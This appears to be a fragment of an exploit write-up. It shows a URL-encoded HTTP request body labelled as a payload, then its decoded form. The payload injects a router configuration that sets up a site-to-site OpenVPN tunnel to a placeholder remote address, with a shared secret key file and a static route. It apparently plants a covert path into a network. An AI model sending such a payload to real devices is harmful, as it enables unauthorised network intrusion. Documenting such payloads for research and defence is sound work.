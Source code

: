 ```http
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

The payload is URL encoded. Here is the URL decoded payload.

```bash
pattern=/ip_address/&ipaddress=&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```

